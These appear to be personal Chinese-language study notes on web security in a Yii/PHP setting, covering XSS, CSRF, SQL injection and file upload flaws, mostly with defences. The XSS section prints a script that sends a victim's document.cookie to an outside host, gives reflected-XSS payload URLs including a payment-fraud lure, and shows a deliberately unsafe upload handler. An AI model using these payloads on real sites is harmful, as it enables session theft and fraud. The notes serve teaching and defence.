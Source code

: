 # XSS 攻击
Cross Site Scripting 简称XSS

```
var cookie = document.cookie;
window.location.href = 'http://codekissyoung.com?cookie='+cookie;
```
通过上面代码我可以拿到别的用户的cookie,我可以将这个用户的cookie放入我自己的浏览器，再去访问该cookie对应的网站，我就伪装成了该用户^_^
### httponly
服务器给发送给浏览器的cookie设置了httponly,我们就没办法通过javascript拿到用户cookie了

### 如何能让我写的javascript攻击代码在被攻击的网站／页面运行呢？
也就是如何将攻击代码注入到攻击页面中呢？
###反射型Xss
```
http://www.codekissyoung.com?name=<script>alert('aaaa');</script>
```
浏览器在`X-XSS-protectioiin`没开启的情况下，会运行链接里的<script>中的代码
```
\YII::$app->response->headers->add('X-XSS-Protection', '0'); // 不开启浏览器X-XSS-Protection
```
构建下面链接(假设是付款页面的url),...是攻击代码
```
http://taobao.com?user=zhangjian&js=<script>...</script>
```
将该链接发布到网上,引诱别人点击,如果真有用户在该付款页面登录了，他点了上述链接后会跳转到该url,同时执行里面的js代码(js可以自动填写表单，收款人填自己，同时自动点击付款)^_^
### 攻击的难点和精髓就在于如何让自己js能运行起来
url编码知识:`&`编码是`％26`,`escape("&")`可以得到编码值
html实体编码知识: `"`的实体编码为`&quot;`
`&quot;`生成的`"`能越狱么？
在`<script>`标签中，`&quot;`不会被html解析为`"`的
`<?=$_GET['key'];?>`接收的为 `?key=%26quot;alert(3);//`
```
<img src="x" onerror='var a = "123<?=$_GET['key'];?>"'/>
```
### Yii 防止Xss
```
\yii\helpers\Html::encode($script);
\yii\helpers\HtmlPurifier::process($script); // lexer(词法解析)出js代码，然后过滤它
```
为何不用正则表达式过滤js代码？
js代码可能隐藏在`<img>``<a>`中，各种属性中，并且掺杂各种编码，你很难识别全部伪装的js代码


# Csrf 跨站脚本攻击
get请求，post请求不是来自本站点
## get型
比如有一个url`http://codekissyoung.com/article/delete?id=19`是用于删除一篇文章的，我将这个链接发布到网上，任何人点击了该链接都可以触发删除文章代码(如果未防范的话)
## post型
伪造表单，action填写真实攻击网站的url,诱导用户填写表单，在用户已经登录该网站(有cookie)的情况下，他填写我们伪造的表单，然后提交，就中招了！
## referer
通过referer头防csrf,但不靠谱，有些浏览器不带referer头
## 防伪标志
服务器生成一个防伪标志_csrf给每个请求的页面，页面里面提交表单时，需要将_csrf传递过来，服务器验证该_csrf是否正确
Yii框架生成 _csrf标志
```
$csrfToken = \Yii::$app->request->csrfToken;
$this->render('view',['csrfToken'=>$csrfToken]);
```
view中
```
<form>
<input type='hidden' name="_csrf" value='<?=$csrfToken?>'>
</form>
```
_csrf的验证过程
服务端在返回页面时，表单带上隐藏的_csrf,cookie设置上经过加密算法加密的_csrf
再次请求服务端时，判断下 `加密(表单_csrf) == cookie的_csrf`就可以验证请求是否伪造的了


# SQL注入
```
$user = (new \yii\db\Query())
->select('*')
->from('users')
->where('name=:name', ['name'=>'zhangsan'])
->one();
print_r($user);
```

# 文件上传漏洞
验证上传文件类型
防止文件名上做手脚
```
if($_POST){
$ext = pathinfo($_FILES['photo']['name'], PATHINFO_EXTENSION);
if(in_array($ext, ['png', 'jpg', 'gif'])){

echo '类型检测成功';
move_uploaded_file($_FILES['photo']['tmp_name'], './'.$_FILES['photo']['name']);
}

//$_FILES['photo']['type']
}
```
比如 `attack.php:photo.jpg`在服务端可以绕过类型检测，但是操作系统文件名的限制，该文件会被存为
`attack.php`,`:`后面都会被截断
所有建议不使用用户提交的文件名存储文件！而是使用服务器端生成的文件！
